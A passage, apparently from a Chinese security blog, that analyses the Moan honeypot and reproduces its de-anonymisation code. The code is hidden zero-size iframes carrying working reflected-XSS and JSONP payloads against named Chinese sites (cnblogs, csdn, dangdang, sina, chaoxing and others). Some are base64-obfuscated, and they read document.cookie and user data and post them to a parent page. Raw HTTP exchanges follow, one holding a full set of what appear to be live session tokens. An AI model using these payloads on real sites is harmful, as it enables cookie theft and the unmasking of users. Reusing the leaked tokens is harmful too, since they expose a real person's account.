ms.define("jsonp", {name: "baidu", url: "http://musicapi.taihe.com/v1/restserver/ting?from=web&xxoo=chrome-extension://&format=json&param=LSybM0sdw2aqEfumhdonnx8fVeIHBQtuiPCKUtmcDzyQAMZmL9gayz8xP%2FHmDp%2BH&timestamp=1574934266&sign=6d4fb00655a40b21407243b6be7274a4&method=baidu.ting.ugccenter.getUserBaseInfo&callback=?", callback: function(data){
    return data.result.username || ""
}})

ms.define("jsonp", {name: "sina", url: "https://login.sina.com.cn/sso/prelogin.php?entry=weibo&xxoo=chrome-extension://&su=&rsakt=mod&client=ssologin.js(v1.4.19)&_=1552901735056&callback=?", callback: function(data){
    return data.uid || ""
}})

ms.define("jsonp", {name: "netease", url: "http://comment.api.163.com/api/v1/products/a2869674571f77b5a0867c3d71db5856/users/0/dailyAchv?ibc=newspc&xxoo=chrome-extension://&from=all&callback=?", callback: function(data){
    var name = (data.user || {}).username || ""
    if (name) {
        name = new Base64().decode(name)
    }
    return name
}})
```

```xml
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>

<body>
    <div style="position: absolute; top: -9999px;">
        <embed src="flashCookie.swf?random=0" width="1" height="1" id="_Flash_Storage_" align="middle" allowscriptaccess="always" type="application/x-shockwave-flash">
    </div>
    <iframe src="https://hudong.vip.youku.com/act/mili/download.html?mobile=1&amp;xxoo=chrome-extension://&amp;download=javascript:new%20Function(name)();//https://down2.uc.cn///https://itunes.apple.com/app" width="0" height="0" referrerpolicy="origin" name="
    window.getUserInfo = function(data) {let s = {source: 'youku', d: data}; window.parent.postMessage(s, '*');}
    let s = document.createElement('script');
    s.src = 'https://cmstool.youku.com/cms/player/userinfo/user_info?callback=getUserInfo&amp;t=' + new Date().getTime();
    document.documentElement.appendChild(s);
    " style="border-width: 0px;">
    </iframe>
    <iframe src="http://api-live.iqiyi.com/stream/geth5?qd_tm=1553094041094&amp;&amp;xxoo=chrome-extension://&amp;typeId=1&amp;platform=7&amp;vid=0&amp;qd_vip=0&amp;qd_uid=2327344064&amp;qd_ip=x.x.x.x&amp;qd_vipres=0&amp;qd_src=h5_xiu&amp;qd_tvid=0&amp;_=1553094041094&amp;callback=%3Csvg/onload=eval(name)%3E" width="0" height="0" name="
    function updateUserIconCallback(data) {if (data.code === 'A00000') {let s = {source: 'iqiyi', d: data}; window.parent.postMessage(s, '*');}}
    fetch('https://pcw-api.iqiyi.com/passport/user/userinfodetail?version=1&amp;callback=updateUserIconCallback', {credentials: 'include'}).then(function(resp) {return resp.text()}).then(function(resp){eval(resp)})
    " style="border-width: 0px;">
    </iframe>
    <iframe src="https://wz.cnblogs.com/create?t=xxxx&amp;xxoo=chrome-extension://&amp;&amp;u=&quot;><svg/onload=eval(name)>&amp;c=&amp;i=0" width="0" height="0" name="
    window.test = function(data) {let s = {source: 'cnblogs', d: data}; window.parent.postMessage(s, '*');}
    let s = document.createElement('script');
    s.src = 'https://passport.cnblogs.com/user/LoginInfo?callback=test'
    document.documentElement.appendChild(s);
    " style="border-width: 0px;">
    </iframe>
    <!-- cnblogs -->
    <!-- zol -->
    <iframe src="data:text/html;base64,PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8dGl0bGU+em9sLmNvbS5jbjwvdGl0bGU+CjwvaGVhZD4KPGJvZHk+CjxkaXYgaWQ9Im1zZ19uIj4KCjwvZGl2Pgo8L2JvZHk+CjxzY3JpcHQ+CiAgICBmdW5jdGlvbiBnZXRVc2VyTmFtZSgpIHsKICAgICAgICBsZXQgaW5mbyA9IGRvY3VtZW50LmdldEVsZW1lbnRCeUlkKCdtc2dfbicpLmlubmVySFRNTC5zcGxpdCgnLycpOwogICAgICAgIGxldCBkYXRhID0ge30KICAgICAgICAvL2NvbnNvbGUubG9nKGluZm8pCiAgICAgICAgaWYgKGluZm8ubGVuZ3RoIDwgNCkgewogICAgICAgIAlkYXRhLmNvZGUgPSBmYWxzZQogICAgICAgIH0gZWxzZSB7CiAgICAgICAgCWRhdGEuY29kZSA9IHRydWUKICAgICAgICAJZGF0YS51c2VybmFtZSA9IGluZm9bM10KICAgICAgICB9CiAgICAgICAgbGV0IGQgPSB7c291cmNlOiAiem9sIiwgZDogZGF0YX07CiAgICAgICAgd2luZG93LnBhcmVudC5wb3N0TWVzc2FnZShkLCAiKiIpOwogICAgfQo8L3NjcmlwdD4KPHNjcmlwdCBzcmM9Imh0dHA6Ly9teS56b2wuY29tLmNuL3B1YmxpY19uZXcucGhwP3h4b289Y2hyb21lLWV4dGVuc2lvbjovLyIgb25sb2FkPSJnZXRVc2VyTmFtZSgpIj4KCjwvc2NyaXB0PgoKPC9odG1sPg==" width="0" height="0" style="border-width: 0px;">
    </iframe>
    <iframe src="data:text/html;base64,PHNjcmlwdD4KCXZhciBkYXRhID0ge30KCXdpbmRvdy5jID0gMAoJc2NyaXB0MSA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpCglzY3JpcHQxLmFzeW5jID0gdHJ1ZQoJc2NyaXB0MS5zcmMgPSAiaHR0cHM6Ly9hcGkubS5qZC5jb20vY2xpZW50LmFjdGlvbj9mdW5jdGlvbklkPWdldEJhYmVsUHJvZHVjdFBhZ2VkJnh4b289Y2hyb21lLWV4dGVuc2lvbjovLyZib2R5PSU3YiUyMiU3MyU2NSU2MyU2ZiU2ZSU2NCU1NCU2MSU2MiU0OSU2NCUyMiUzYSUyMiUzMCUzMCUzMSUzNSUzNSUzNSUzNSUzNCUzNyUzMCUzOCUzOSUzMyU1ZiUzMCUzMyUzNyUzMiUzNiUzNiUzMCUzMCU1ZiUyMiUyYyUyMiU3NCU3OSU3MCU2NSUyMiUzYSUyMiUzMCUyMiUyYyUyMiU3MCU2MSU2NyU2NSU0ZSU3NSU2ZCUyMiUzYSUyMiUzMSUyMiUyYyUyMiU2ZCU2OSU3NCU2NSU2ZCU0MSU2NCU2NCU3MiU0OSU2NCUyMiUzYSUyMiUyMiUyYyUyMiU2NyU2NSU2ZiUyMiUzYSU3YiUyMiU2YyU2ZSU2NyUyMiUzYSUyMiUyMiUyYyUyMiU2YyU2MSU3NCUyMiUzYSUyMiUyMiU3ZCUyYyUyMiU2MSU2NCU2NCU3MiU2NSU3MyU3MyU0OSU2NCUyMiUzYSUyMiUyMiUyYyUyMiU3MCU2ZiU3MyU0YyU2ZSU2NyUyMiUzYSUyMiUyMiUyYyUyMiU3MCU2ZiU3MyU0YyU2MSU3NCUyMiUzYSUyMiUyMiUyYyUyMiU2NiU2ZiU2MyU3NSU3MyUyMiUzYSUyMiUyMiUyYyUyMiU2OSU2ZSU2ZSU2NSU3MiU0MSU2ZSU2MyU2OCU2ZiU3MiUyMiUzYSUyMiUyMiU3ZCZzY3JlZW49Mjc5OSoxMjA4JmNsaWVudD13aDUmY2xpZW50VmVyc2lvbj0xLjAuMCZzaWQ9JnV1aWQ9JmFyZWE9Jl89MTU4NTgyMzA2ODg1MCZjYWxsYmFjaz1qc29ucDEiCglzY3JpcHQyID0gZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0IikKCXNjcmlwdDIuYXN5bmMgPSB0cnVlCglzY3JpcHQyLnNyYyA9ICJodHRwczovL2FwaS5tLmpkLmNvbS9hcGk/YXBwaWQ9cGNfaG9tZV9wYWdlJnh4b289Y2hyb21lLWV4dGVuc2lvbjovLyZmdW5jdGlvbklkPWdldEJhc2VVc2VySW5mbyZsb2dpblR5cGU9MyZqc29ucD1qc29ucDIiCglmdW5jdGlvbiBqc29ucDEocGluX2RhdGEpIHsKCQlkYXRhLnBpbiA9IEpTT04uc3RyaW5naWZ5KHBpbl9kYXRhKQoJCXdpbmRvdy5jICs9IDEKCQlpZiAod2luZG93LmMgPj0gMikgewoJCQlsZXQgcyA9IHtzb3VyY2U6ICJqZCIsIGQ6IGRhdGF9CgkJCXdpbmRvdy5wYXJlbnQucG9zdE1lc3NhZ2UocywgIioiKQoJCX0KCX0KCWZ1bmN0aW9uIGpzb25wMih1c2VybmFtZV9kYXRhKSB7CgkJZGF0YS51c2VybmFtZSA9IHVzZXJuYW1lX2RhdGEKCQl3aW5kb3cuYyArPSAxCgkJaWYgKHdpbmRvdy5jID49IDIpIHsKCQkJbGV0IHMgPSB7c291cmNlOiAiamQiLCBkOiBkYXRhfQoJCQl3aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHMsICIqIikKCQl9Cgl9Cglkb2N1bWVudC5kb2N1bWVudEVsZW1lbnQuYXBwZW5kQ2hpbGQoc2NyaXB0MSkKCWRvY3VtZW50LmRvY3VtZW50RWxlbWVudC5hcHBlbmRDaGlsZChzY3JpcHQyKQo8L3NjcmlwdD4KCg==" width="0" height="0" style="border-width: 0px;">
    </iframe>
    <!-- jd -->
    <iframe src="data:text/html;base64,PGRpdiBpZD0ibG9naW5fc3RhdHVzIj48L2Rpdj4KPHNjcmlwdD4KCWxldCBzID0gZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0IikKCXMuc3JjID0gImh0dHBzOi8vaG9tZS41MWN0by5jb20vaW5kZXgucGhwP3M9L0luZGV4L2dldExvZ2luU3RhdHVzMjAxNS9yZWJhY2svaHR0cCUyNTNBJTI1MkYlMjUyRnd3dy41MWN0by5jb20lMjUyRiZ4eG9vPWNocm9tZS1leHRlbnNpb246Ly8iCglzLm9ubG9hZCA9IGZ1bmN0aW9uKCkgewoJCWxldCB4ID0ge3NvdXJjZTogIjUxY3RvIiwgZDogbG9naW5fc3RhdHVzLmlubmVySFRNTH07CgkJd2luZG93LnBhcmVudC5wb3N0TWVzc2FnZSh4LCAiKiIpOwoJfQoJZG9jdW1lbnQuZG9jdW1lbnRFbGVtZW50LmFwcGVuZENoaWxkKHMpOwo8L3NjcmlwdD4=" width="0" height="0" style="border-width: 0px;">
    </iframe>
    <!-- 51cto -->
    <iframe src="https://m.iask.sina.com.cn/cas/logins?domain=iask.sina.com.cn&amp;xxoo=chrome-extension://&amp;businessSys=iask&amp;channel=null&amp;popup=show&amp;clsId=undefined&amp;fid=%22%3E%3Cscript%3Eeval(name)%3C/script%3E" width="0" height="0" referrerpolicy="origin" name="
    window.jQuery15209919425173864387_1591794501184 = function(data) {let s = {source: 'sina', d: data}; window.parent.postMessage(s, '*');}
    let s = document.createElement('script');
    s.src = 'https://login.sina.com.cn/sso/prelogin.php?entry=weibo&amp;su=&amp;rsakt=mod&amp;client=ssologin.js(v1.4.19)&amp;_=1591794501306&amp;callback=jQuery15209919425173864387_1591794501184';
    document.documentElement.appendChild(s);
    " style="border-width: 0px;">
    </iframe>
    <!-- sina-->
    <iframe src="data:text/html;base64,PGh0bWw+CjxoZWFkPgogICAgPG1ldGEgY2hhcnNldD0iVVRGLTgiPgogICAgPG1ldGEgbmFtZT0idmlld3BvcnQiCiAgICAgICAgICBjb250ZW50PSJ3aWR0aD1kZXZpY2Utd2lkdGgsIHVzZXItc2NhbGFibGU9bm8sIGluaXRpYWwtc2NhbGU9MS4wLCBtYXhpbXVtLXNjYWxlPTEuMCwgbWluaW11bS1zY2FsZT0xLjAiPgogICAgPG1ldGEgaHR0cC1lcXVpdj0iWC1VQS1Db21wYXRpYmxlIiBjb250ZW50PSJpZT1lZGdlIj4KICAgIDx0aXRsZT5Eb2N1bWVudDwvdGl0bGU+CjwvaGVhZD4KPGJvZHk+Cgo8L2JvZHk+CjxzY3JpcHQ+Cgl2YXIgeHNzX2VsZSA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoImlmcmFtZSIpOwoJeHNzX2VsZS5zcmMgPSAiaHR0cHM6Ly9wLnFpYW8uYmFpZHUuY29tL2NwczMvY2hhdEluZGV4P3NpdGVUb2tlbj0lM0Mvc2NyaXB0JTNFJTNDaW1nJTIwc3JjPXglMjBvbmVycm9yPWV2YWwod2luZG93Lm5hbWUpJTNFJnh4b289Y2hyb21lLWV4dGVuc2lvbjovLyZzcGVlZExvZ0lkPSZlaWQ9MjgxODE0MjMmcmVxUGFyYW09JTdCJTIyZnJvbSUyMiUzQTAlMkMlMjJzaWQlMjIlM0ElMjItMTAwJTIyJTJDJTIydGlkJTIyJTNBJTIyLTElMjIlMkMlMjJ0dHlwZSUyMiUzQTElMkMlMjJzaXRlSWQlMjIlM0ElMjIxMzc2ODA3MiUyMiUyQyUyMnVzZXJJZCUyMiUzQSUyMjI4MTgxNDIzJTIyJTJDJTIycGFnZUlkJTIyJTNBMCU3RCI7CiAgeHNzX2VsZS5uYW1lID0gYAogIGxldCBtYXBfaWZyYW1lID0gZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgnaWZyYW1lJyk7CiAgbWFwX2lmcmFtZS5zcmMgPSAnaHR0cHM6Ly9tYXAuYmFpZHUuY29tJzsKICBtYXBfaWZyYW1lLndpZHRoID0gMDsKICBtYXBfaWZyYW1lLmhlaWdodCA9IDA7CiAgbWFwX2lmcmFtZS5zdHlsZS5ib3JkZXJXaWR0aCA9IDA7CiAgZG9jdW1lbnQuZG9jdW1lbnRFbGVtZW50LmFwcGVuZENoaWxkKG1hcF9pZnJhbWUpOwogIGpzb25wNzI0OTgwODkgPSBmdW5jdGlvbihkYXRhKXsKICAgIGxldCBzID0geyBzb3VyY2U6ICdiYWlkdTEnLCBkOiBkYXRhIH07CiAgICB3aW5kb3cucGFyZW50LndpbmRvdy5wYXJlbnQucG9zdE1lc3NhZ2UocywgJyonKTsKICB9CiAgdmFyIGZvbyA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpOwogIGZvby5zcmM9Imh0dHBzOi8vbWFwLmJhaWR1LmNvbS8/cXQ9c3NuJnQ9MTU5NTQ4NjA2NTg5MiZjYWxsYmFjaz1qc29ucDcyNDk4MDg5IjsKICBkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGZvbyk7CiAgYAogIGRvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoeHNzX2VsZSk7Cjwvc2NyaXB0Pgo8L2h0bWw+" width="0" height="0" style="border-width: 0px;">
    </iframe>
    <!-- bd1 -->
    <iframe src="https://api.csdn.net/oauth/authorize?client_id=1000001&amp;xxoo=chrome-extension://&amp;redirect_uri=http://www.iteye.com/auth/csdn/callback&amp;response_type=%22https%3A%2F%2Fapi.csdn.net%2Foauth%2Fauthorize%3Fclient_id%3D1000001%26redirect_uri%3D%22http%3A%2F%2Fwww.iteye.com%2Fauth%2Fcsdn%2Fcallback%26response_type%3D%22%3E%3Cimg%20src%3Dx%20onerror%3Deval(window.name)%3E" width="0" height="0" referrerpolicy="no-referrer" name="
    let s = {source: 'csdn', d: document.cookie}; window.parent.postMessage(s, '*');
    " style="border-width: 0px;">
    </iframe>
    <!-- csdn -->
    <!-- ctrip -->
    <iframe src="https://m.iask.sina.com.cn/cas/logins?domain=iask.sina.com.cn&amp;xxoo=chrome-extension://&amp;businessSys=iask&amp;channel=null&amp;popup=show&amp;clsId=undefined&amp;fid=%22%3E%3Cscript%3Eeval(name)%3C/script%3E" width="0" height="0" referrerpolicy="origin" name="
    window.jQuery2398423949823 = function(data) {let s = {source: 'ctrip', d: data}; window.parent.postMessage(s, '*');}
    let s = document.createElement('script');
    s.src = 'https://accounts.ctrip.com/ssoproxy/ssoGetUserInfo?jsonp=jQuery2398423949823&amp;xxoo=chrome-extension://&amp;';
    document.documentElement.appendChild(s);
    " style="border-width: 0px;">
    </iframe>
    <!-- dangdang -->
    <iframe src="http://databack.dangdang.com/dde.php?platform=pc&amp;xxoo=chrome-extension://&amp;type=3&amp;url=http%253A%252F%252Fwww.dangdang.com%252F&amp;charset=GBK&amp;perm_id=20200530121832924211210288241440628&amp;page_id=mix_317715&amp;website=dangdang.com&amp;expose=%255B%2522mix_317715.3208542%252C9339%252C9354..%2522%252C%2522mix_317715.3208542%252C9339%252C9356..%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9341..%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.1.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.2.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.3.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.4.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.5.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.6.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.7.%2522%255D&amp;callback=%3Ciframe/src=javascript:eval(&quot;window.parent.window.parent.postMessage({source: &quot;dangdang&quot;, d: document.cookie}, &quot;*&quot;);&quot;)%3E" width="0" height="0" referrerpolicy="no-referrer" name="" style="border-width: 0px;">
    </iframe>
    <iframe src="http://databack.dangdang.com/dde.php?platform=pc&amp;xxoo=chrome-extension://&amp;type=3&amp;url=http://www.dangdang.com/&amp;charset=GBK&amp;perm_id=20200530121832924211210288241440628&amp;page_id=mix_317715&amp;website=dangdang.com&amp;expose=123&amp;callback=%22%3E%3Cscript%3Eeval(name)%3C/script%3E" width="0" height="0" referrerpolicy="no-referrer" name="
    let s = {source: 'dangdang', d: document.cookie}; window.parent.postMessage(s, '*');
    " style="border-width: 0px;">
    </iframe>
    <!-- 诚通网盘 -->
    <iframe src="data:text/html;base64,PHNjcmlwdD4KCXdpbmRvdy5jYWxsYmFjayA9IGZ1bmN0aW9uKGRhdGEpIHsKbGV0IGQgPSB7c291cmNlOiAnY3RmaWxlJywgZDoge2RhdGF9fTt3aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKGQsICIqIik7fQoJbGV0IHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsKCXMuc3JjID0gImh0dHBzOi8vaG9tZS5jdGZpbGUuY29tL2lhamF4LnBocD9pdGVtPXByb2ZpbGUmeHhvbz1jaHJvbWUtZXh0ZW5zaW9uOi8vJmFjdGlvbj1pbmRleCZqc29ucD1qUXVlcnkyMzk4NDIzOTQ5ODIzIjsKCWRvY3VtZW50LmRvY3VtZW50RWxlbWVudC5hcHBlbmRDaGlsZChzKTsKPC9zY3JpcHQ+" width="0" height="0" style="border-width: 0px;">
    </iframe>
    <!-- 2021 1.4新增 -->
    <!-- 51cto -->
    <iframe src="data:text/html;base64,PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8dGl0bGU+NTFjdG88L3RpdGxlPgo8L2hlYWQ+Cjxib2R5Pgo8ZGl2IGlkPSJsb2dpbl9zdGF0dXMiPjwvZGl2Pgo8L2JvZHk+CjxzY3JpcHQ+CglsZXQgcyA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpCglzLnNyYyA9ICJodHRwczovL2hvbWUuNTFjdG8uY29tL2luZGV4LnBocD9zPS9JbmRleC9nZXRMb2dpblN0YXR1czIwMTUvcmViYWNrL2h0dHAlMjUzQSUyNTJGJTI1MkZ3d3cuNTFjdG8uY29tJTI1MkYmeHhvbz1jaHJvbWUtZXh0ZW5zaW9uOi8vIgoJcy5vbmxvYWQgPSBmdW5jdGlvbigpIHsKICAgICAgICBsZXQgeCA9IHtzb3VyY2U6ICI1MWN0byIsIGQ6IGxvZ2luX3N0YXR1cy5pbm5lckhUTUx9OwogICAgICAgIC8vY29uc29sZS5sb2coeCkKCQl3aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHgsICIqIik7Cgl9Cglkb2N1bWVudC5kb2N1bWVudEVsZW1lbnQuYXBwZW5kQ2hpbGQocyk7Cjwvc2NyaXB0Pgo8L2h0bWw+" width="0" height="0" style="border-width: 0px;">
    </iframe>
    <!-- 超星 -->
    <iframe src="https://mooc1-1.chaoxing.com/api/workTestPendingNew?&amp;xxoo=chrome-extension://&amp;classIds=%3CScRiPt%3Eeval(name)%3C/sCrIpT%3E" width="0" height="0" referrerpolicy="no-referrer" name="
    let s = {source: 'chaoxing', d: document.cookie}; window.parent.postMessage(s, '*');
    " style="border-width: 0px;">
    </iframe>
    <!-- 天涯 -->
    <iframe src="data:text/html;base64,PHNjcmlwdD4KCXdpbmRvdy5jYWxsYmFjayA9IGZ1bmN0aW9uKGUsIHVzZXJuYW1lKSB7CmxldCBkID0ge3NvdXJjZTogJ3RpYW55YScsIGQ6IHtjb2RlOiBlLCB1c2VybmFtZTogdXNlcm5hbWV9fTt3aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKGQsICIqIik7fQoJbGV0IHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsKCXMuc3JjID0gImh0dHA6Ly9wYXNzcG9ydC50aWFueWEuY24vb25saW5lL2NoZWNrdXNlcm9ubGluZS5qc3A/dD0xNTg0NjE0MTg3MDI4JmNhbGxiYWNrPWNhbGxiYWNrJnh4b289Y2hyb21lLWV4dGVuc2lvbjovLyI7Cglkb2N1bWVudC5kb2N1bWVudEVsZW1lbnQuYXBwZW5kQ2hpbGQocyk7Cjwvc2NyaXB0Pg==" width="0" height="0" style="border-width: 0px;">
    </iframe>
</body>

</html>
```

经过调试 JS 发现 Moan 蜜罐混淆过，打开开发者工具循环 debugger 防调试。那就观察到底发送什么请求，经过手动测试过目前发现些有效的 JSONP 和 XSS 漏洞，要是感兴趣还可以直接白拿。

51CTO。响应中 `https://ucenter.51cto.com/avatar.php?uid=<UID>&amp;size=small` 是头像，NikeName 是昵称，有了 UID，可以通过找到博客主页 `https://blog.51cto.com/u_<UID>`。

```http
GET /index.php?s=/Index/getLoginStatus2015/reback/http%253A%252F%252Fwww.51cto.com%252F&xxoo=chrome-extension:// HTTP/2
Host: home.51cto.com
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Dnt: 1
Cookie: ......
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


HTTP/2 200 OK
Date: Wed, 24 May 2023 06:05:24 GMT
Content-Type: application/x-javascript;
Server: nginx
X-Request-Id: 193f2c9542eeb2b502030c479b09f254
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
P3p: CP="CURa ADMa DEVa PSAo PSDo OUR BUS UNI PUR INT DEM STA PRE COM NAV OTC NOI DSP COR"
Set-Cookie: lastlogin=on; expires=Thu, 25-May-2023 06:05:24 GMT; Max-Age=86400
Strict-Transport-Security: max-age=63072000
Load-Balancing: web11_home_backend

document.getElementById('login_status').innerHTML='<div class="login-suc">&amp;size=small"><a href=\"https://home.51cto.com/space?uid=<UID>\" target="_self" >NikeName</a> <a href ="https://home.51cto.com/members/in-fo?www" target="_blank"><span class ="jsVipDrop"  style="position: relative;" ><div id = "vip_mes_top" style="display:none;position: absolute;right:-52px;top: 22px;width: 137px;z-index: 99;"><div style="background: #faf7e6 none repeat scroll 0 0;border: 1px solid #ecb7a5;color: #666;font-size: 12px;padding: 3px 5px;position: relative;"><span style="background: rgba(0, 0, 0, 0) url(https://static2.51cto.com/home/web/images/hidearro.png) no-repeat scroll center center;display: inline-block;height: 7px;position: absolute;right: 57px;top: -6px;width: 12px;"></span><div style="color:#f60; text-align:center;">一个会员，全站特权</div></div></div></span></a><a href=\"https://home.51cto.com/msg/recommend \">消息(1)</a> <a  onclick="addFavorite(this.href, \'51CTO! 官方站\');return false;" href=\'https://www.51cto.com/\'>收藏本站</a><a href=\"https://home.51cto.com/index/logout?reback=http://www.51cto.com/\" target="_self" >[退出]</a> </div>';document.write('<script src ="https://static2.51cto.com/home/web/js/vip_top.js"></script>')
```

博客园反射型 XSS。

```http
GET /create?t=xxxx&xxoo=chrome-extension://&&u=%22%3E%3Csvg/onload=eval(name)%3E&c=&i=0 HTTP/2
Host: wz.cnblogs.com
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Cookie: ......
Dnt: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: iframe
Referer: https://120.253.235.226/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


HTTP/2 200 OK
Date: Wed, 24 May 2023 05:41:58 GMT
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
Set-Cookie: affinity=......; Expires=Wed, 24-May-23 09:41:58 GMT; Max-Age=14400; Path=/; HttpOnly

<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>&#x6DFB;&#x52A0;&#x4E00;&#x4E2A;&#x65B0;&#x7F51;&#x6458; - &#x535A;&#x5BA2;&#x56ED;</title>
    <link href="/dist/css/wz_popup.min.css?v=Nr6jVV8bkY7lM2iOHaZP-cLarrEblWFz9WbhwNl2D3Y" rel="stylesheet" /></head>
<body>
    <form id="form1">
        <div id="wrapper">
            <div id="header" style="margin: 0px">
                <a href="//www.cnblogs.com/" target="_blank">
                        
                </a>
            </div>
                <div id="panel_add">
                    <table cellspacing="8">
                        <tr>
                            <td style="width: 40px;">
                                网址：
                            </td>
                            <td>
                                <input id="tb_url" type="text" value=""><svg/onload=eval(name)>" />
                                <span class="warm">*</span>
                            </td>
                        </tr>
```

苏宁易购。后端会把 Cookie 中 nick 做响应，如果使用手机号注册过又没改昵称，默认是手机号 `183******56`。

```http
GET /sfp/mutualTrust/getLoginInfo.htm?xxoo=chrome-extension://&&callback=jQuery172011468305000873791_1608255922695&_=1684899009624 HTTP/1.1
Host: myjr.suning.com
Cookie: route=cbe05d44f5b82132a1790aedc1d3b35c; _snzwt=THbtSF1884becb21067Ijc367; streetCode=0100100; SN_CITY=10_010_1000000_9017_01_10106_2_0; cityId=9017; districtId=10106; cityCode=010; totalProdQty=0; hm_guid=a9145d27-5a74-4dc9-b654-ffc489184bfd; _df_ud=11077387-7d42-4cb8-b1b2-0d96872f524f; _device_session_id=p_482c6aa0-7974-491a-9f3f-762bc5bff676; _snvd=1684909760674d8DqaIAm4S/; ariaDefaultTheme=null; _snsr=open.weixin.qq.com%7Creferral%7C%7C%7C; tradeMA=84; custLevel=161000000110; custno=7401367892; ecologyLevel=ML100100; idsLoginUserIdLastTime=; logonStatus=2; nick=183******56; nick2=183******56; sncnstr=0SnDKfB899yNxwSqDNloVg%3D%3D; token=984e16ea-1d28-46f6-bf07-54adb38c6267; _snma=1%7C168490097565191292%7C1684900975651%7C1684910251350%7C1684910252944%7C20%7C3; _snmp=168491025290747698; _snmb=168490980029265892%7C1684910252960%7C1684910252947%7C17; authId=siY9bLzswhqH14xkbNfd2AbKimiopCn63D; secureToken=268F1979694C64FC3D89F1C7AF92EC8E; ssotbrd=TGTY9BiaH1400oAoBBl0xkuym9bfd3DQgMPpEtUn5Vz; sfp_sessionId=nuf4ltuOeP42dKtp9XZ73CMfE5rA7SNwrTU0a7jPjD7uvJgQsE
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Dnt: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36 Edg/113.0.1774.50
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close


HTTP/1.1 200 OK
Server: Byte-nginx
Content-Type: text/html;charset=utf-8
Content-Length: 67
Connection: close
Cache-Control: no-cache
Content-Disposition: inline;filename=f.txt
Date: Wed, 24 May 2023 08:03:50 GMT
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Pragma: No-cache
Via: cache73.czmp,cache05.tycm06
X-Bdcdn-Cache-Status: TCP_MISS,TCP_MISS
X-Powered-By: SNMW-WEB1.0
X-Request-Id: da554e5fbff3a5542a9561b7012bc943
X-Request-Ip: 223.104.41.51
X-Response-Cache: miss
X-Response-Cinfo: 223.104.41.51
X-Tt-Trace-Tag: id=5

jQuery172011468305000873791_1608255922695({"nick":"183******56"})
```

QQ 音乐。响应对象里 C.data.face 是头像，sss.C.data.name 是昵称。

```http
